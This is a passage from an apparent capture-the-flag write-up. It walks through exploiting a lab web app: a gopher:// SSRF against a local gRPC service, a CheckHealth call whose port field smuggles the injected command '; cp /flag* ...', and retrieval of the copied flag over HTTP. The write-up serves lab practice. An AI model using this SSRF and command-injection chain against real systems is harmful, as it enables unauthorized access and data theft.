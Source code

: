 2. Trigger SSRF

    `GET /connect-realm` => `curl -o /dev/null -w "%{http_code}" gopher://127.0.0.1:50051/_<RAW_GRPC_FRAMES>`

3. Send Raw gRPC "CheckHealth"

    The raw frames instruct the server to run `CheckHealth` with `ip = "127.0.0.1"` and `port = "1337; cp /flag* /app/eldoria_api/public/flag.txt"`.

4. Command Injection

    Go’s `healthCheck` spawns `nc -zv 127.0.0.1 1337; cp /flag* /app/eldoria_api/public/flag.txt`.

5. Flag Retrieval

    Finally, `GET /flag.txt` returns the copied flag.

    ![img](./assets/flag.png)
